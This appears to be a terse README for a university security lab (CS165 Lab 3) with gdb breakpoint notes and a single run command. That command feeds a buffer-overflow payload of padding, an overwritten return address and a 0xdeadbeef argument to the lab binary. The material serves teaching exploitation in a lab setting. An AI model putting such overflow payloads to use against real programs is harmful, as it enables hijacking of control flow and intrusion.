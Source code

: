 # CS165-Lab3

breakpoint: break main | break test
delete bp: clear(all deleted) | clear function
r $(echo -e "12345678911131517192123252729\xa0\x8e\x04\x08aaaa\xde\xad\xbe\xef")